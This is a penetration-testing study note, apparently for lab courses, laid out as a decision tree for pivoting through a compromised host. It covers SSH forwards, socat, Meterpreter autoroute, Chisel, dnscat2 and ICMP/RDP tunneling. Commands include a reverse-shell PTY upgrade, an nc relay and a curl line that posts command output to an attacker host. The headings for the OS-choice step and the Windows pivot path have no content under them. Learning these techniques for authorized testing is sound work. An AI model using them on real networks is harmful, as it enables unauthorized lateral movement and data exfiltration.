


# Port Redirection and SSH Tunneling (Decision Tree)

Part of [[DECISION TREE]]. Use this when you have a foothold on a pivot host and need to reach a host or service that Kali cannot connect to directly.

For exact syntax, see [[Port Redirection and SSH Tunneling (Command Appendix)]]. For command teardowns, see [[Pivoting & Tunneling (Breakdowns)]]. For the full module walkthrough, see [[Port Redirection and SSH Tunneling]].

---

## Step 0: Do you even need a pivot?

Can Kali reach the target host and port directly? If yes, no pivot needed -- go straight to your exploit. If no (service is on an internal subnet, or a firewall blocks direct connection), continue below.

---

## Step 1: What OS is the pivot host?



---

## Linux Pivot Path

```mermaid
flowchart TD
    L1["Linux pivot host"] --> L2{Can Kali connect INBOUND\nto the pivot host on arbitrary ports?\n(Socat/SSH local/dynamic need this)}
    L2 -->|Yes| L3{Socat or rinetd\navailable on pivot?}
    L3 -->|Yes, one port needed| L4["Socat port forward\nsocat -ddd TCP-LISTEN:PORT,fork TCP:DEST:PORT\n→ 19.2.3"]
    L3 -->|No socat| L5{SSH access FROM\npivot to internal host?}
    L5 -->|Yes, one destination| L6["SSH local port forward\nssh -N -L 0.0.0.0:PORT:DEST:DESTPORT user@INTERNAL\n→ 19.3.1"]
    L5 -->|Yes, multiple destinations| L7["SSH dynamic port forward\nssh -N -D 0.0.0.0:PORT user@INTERNAL\n+ proxychains on Kali\n→ 19.3.2"]
    L2 -->|No -- firewall blocks inbound to pivot| L8{SSH available OUT\nfrom pivot to Kali?\n(SSH server running on Kali)}
    L8 -->|Yes, one destination| L9["SSH remote port forward\nssh -N -R 127.0.0.1:PORT:DEST:DESTPORT kali@KALI_IP\nlistens on Kali loopback\n→ 19.3.3"]
    L8 -->|Yes, multiple destinations| L10["SSH remote dynamic\nssh -N -R PORT kali@KALI_IP\nSOCKS proxy on Kali loopback\nOpenSSH client 7.6+ required\n→ 19.3.4"]
    L8 -->|Yes + root on Kali + Python3 on pivot| L11["sshuttle\nsshuttle -r user@PIVOT:PORT SUBNET/24\ntransparent VPN-like routing, no proxychains needed\n→ 19.3.5"]
```

**Which SSH forward do I need?**

| Scenario | Technique |
|---|---|
| Kali needs ONE internal port; pivot can receive inbound | SSH `-L` local forward |
| Kali needs MANY internal ports/hosts; pivot can receive inbound | SSH `-D` dynamic + proxychains |
| Firewall blocks inbound to pivot; ONE port needed on Kali side | SSH `-R` remote forward |
| Firewall blocks inbound to pivot; MANY ports/hosts needed | SSH `-R PORT` remote dynamic + proxychains |
| Need broad transparent routing without proxychains prefix | sshuttle (root on Kali + Python3 on pivot) |

---

## Windows Pivot Path



---

## Proxychains Gotchas (applies to any SOCKS-based technique)

**Wrong scan type through proxychains:**
- MUST use `nmap -sT` (TCP connect), not `-sS` (SYN scan). SYN requires raw sockets that proxychains can't intercept.
- MUST use `-Pn -n`. ICMP pings don't work through SOCKS; DNS lookups may leak or stall.

**Proxychains config drift between labs:**
```
Problem: after editing /etc/proxychains4.conf for a SOCKS5 entry,
         a later sed pattern targeting "socks4" silently fails.
Fix:     always sudo tail -3 /etc/proxychains4.conf after running sed.
         Match the current entry exactly, not what it was when you first set it.
```

**socks4 vs socks5:**
- `socks5` in the ProxyList handles IPv6 and UDP (where supported). `socks4` is older but simpler. SSH supports both.
- Pick whichever the server advertises. When in doubt, `socks5`.

**proxychains with statically-linked binaries:**
- proxychains uses LD_PRELOAD hooking -- it only works with dynamically-linked binaries. Statically-linked binaries bypass it entirely.

---

## Pre-SSH Checklist (from a non-interactive reverse shell)

Whenever you need to SSH FROM a reverse shell to set up a port forward:

1. **Upgrade to PTY first:**
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```
   Without a PTY, the SSH password prompt hangs and can't be answered.

2. **Add `-o StrictHostKeyChecking=no`:**
   The user running the shell (e.g. `confluence`) often can't write to `~/.ssh/known_hosts`. This flag skips the host key check rather than failing.

3. **Check SSH server is running on Kali first (for remote forwards):**
   ```bash
   sudo systemctl start ssh
   sudo systemctl status ssh   # confirm active (running)
   ```

4. **Pick a free port for the listening side:**
   If any existing listener (nc, proxychains SOCKS, previous forward) occupies the port you want, SSH fails with "remote port forwarding failed for listen port X". Pick any other free port above 1024.

---

## Socat-not-available fallback (Linux)

If the pivot doesn't have Socat but you need a simple one-port forward and SSH is overkill:

```bash
# mkfifo named pipe approach (no external tools needed)
mkfifo /tmp/f
nc -l -p LISTEN_PORT < /tmp/f | nc DEST_IP DEST_PORT > /tmp/f
```

Limitation: `nc` implementations vary. Some don't support `-l -p` syntax. Test first.

---

---

## Got a Meterpreter Session — MSF-Native Pivot Path

When you catch a Meterpreter session on the pivot host, you don't need SSH at all. MSF builds the SOCKS proxy and routes internally.

```
# In msfconsole after session opens:
bg
use auxiliary/server/socks_proxy
set SRVPORT 9050; set SRVHOST 0.0.0.0; set VERSION 4a
run

sessions -i 1
run autoroute -s <target-subnet>/<mask>
```

→ proxychains.conf: `socks4 127.0.0.1 9050`, then `proxychains nmap -sT -Pn -n ...` as normal.
→ Pros: no SSH server needed, autoroute handles routing automatically.
→ Full syntax: [[Port Redirection and SSH Tunneling (Command Appendix)#Meterpreter Tunneling (autoroute + socks_proxy)|Command Appendix]]

---

## Protocol-Restricted Environments

When the target environment has strict egress filtering, SSH may not work. Match technique to allowed protocol:

| Allowed egress | Pivot technique | Tool |
|---------------|-----------------|------|
| TCP (any port) | SSH dynamic/remote-dynamic | ssh -D / ssh -R |
| HTTP/HTTPS only | HTTP-tunneled SOCKS | [[Chisel]] (reverse variant) or Rpivot |
| DNS only (port 53) | DNS tunneling | Dnscat2 |
| ICMP only | ICMP-tunneled TCP | ptunnel-ng |
| RDP only (Windows pivot) | SOCKS over RDP channel | SocksOverRDP + Proxifier |

### Only HTTP outbound allowed → Rpivot or Chisel

**Rpivot:** `server.py` on Kali (port 9999 + SOCKS on 9050), `client.py` on pivot (Python 2.7).
**Chisel reverse:** `chisel server --reverse` on Kali, `chisel client <kali-ip>:PORT R:socks` on pivot, creates SOCKS5 on Kali port 1080.
→ Both require updating proxychains.conf (socks4 9050 for Rpivot, socks5 1080 for Chisel).
→ SSH through SOCKS doesn't use proxychains. Use `ProxyCommand` with ncat instead: `ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' user@host`
→ Full syntax: [[Port Redirection and SSH Tunneling (Command Appendix)#Chisel Reverse SOCKS (HTTP Tunnel. DPI Bypass, Server on Kali)|Command Appendix]], [[Chisel]]

**glibc mismatch on older targets:** Newer Kali builds Chisel with Go 1.20+ which requires glibc 2.32/2.34. If the pivot has an older glibc, download the Go 1.19 compiled release: `wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz`. Detect using the error collection pattern: `<cmd> &> /tmp/out; curl --data @/tmp/out http://<kali>:<port>/`

### Only DNS outbound allowed → Dnscat2

→ Requires a domain you control with your server as the authoritative NS (or a lab pre-configured for this).
→ **Server:** `dnscat2-server feline.corp` on the auth NS host (needs sudo for UDP/53). **Client:** `./dnscat feline.corp` (Linux binary) or `Start-Dnscat2` PS module (Windows).
→ Very slow. Session drops after ~20 unanswered DNS queries, run `window -i 1` and `listen` immediately on session connect.
→ **Port forwarding through DNS tunnel:** `listen [0.0.0.0:]<localport> <rhost>:<rport>`, like ssh -L. Use `0.0.0.0` if the destination tool (e.g. Kali) needs to connect to the auth NS host's port rather than localhost.
→ **When tool hardcodes 127.0.0.1:** combine dnscat2 `listen 0.0.0.0:PORT` on the auth NS with `ssh -fNL PORT:127.0.0.1:PORT user@auth-ns-host` on Kali to bridge the port to Kali's loopback.
→ Full syntax: [[Port Redirection and SSH Tunneling (Command Appendix)#dnscat2 Linux Setup (Auth NS + Binary Client)|Command Appendix]], [[Dnscat2]]

### Only ICMP outbound allowed → ptunnel-ng

→ Wraps TCP inside ICMP echo packets. Root required on both sides.
→ Build statically on Kali (autogen.sh sed patch), transfer to pivot, run server mode.
→ Client creates local TCP port (e.g. :2222) that maps through ICMP to pivot SSH port 22.
→ SSH through it: `ssh -p2222 -lubuntu 127.0.0.1`, then add `-D 9050` for proxychains.
→ Full syntax: [[Port Redirection and SSH Tunneling (Command Appendix)#ptunnel-ng (ICMP Tunneling)|Command Appendix]]

### Only RDP accessible (Windows pivot, no outbound TCP/SSH) → SocksOverRDP

→ Loads a DLL into mstsc.exe that creates a SOCKS proxy via RDP virtual channel.
→ Proxifier on the pivot host routes new mstsc.exe connections through the channel.
→ Requires admin on pivot; Windows Defender must be disabled (flags the DLL/EXE).
→ Full syntax: [[Port Redirection and SSH Tunneling (Command Appendix)#SocksOverRDP + Proxifier (Windows-Only Multi-Hop via RDP)|Command Appendix]]

---

## Related

- 🔁 Similar to: [[Shells & Payloads (Decision Tree)|Shells & Payloads]] -- reverse shells bypass inbound firewalls using the same outbound-initiation idea as `-R` remote forwarding
- 🔗 **Chisel** (HTTP-tunneled pivoting, reverse variant, no SSH required): [[Chisel]]
- 🔗 **Ligolo-ng** (TUN-interface tunneling, no proxychains): [[Ligolo-ng]]
- 🔗 **PayloadsAllTheThings -- Network Pivoting Techniques:** [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

#### Tags: #DecisionTree #PortForwarding #SSHTunneling #Pivoting #Socat #Proxychains #sshuttle #Plink #Netsh #Meterpreter #Rpivot #Dnscat2 #Chisel #ptunnel-ng #SocksOverRDP #DPI #HTTPTunnel #DNSTunnel #ProxyCommand #Ncat #Module19 #Module20 #HTBSupplementary
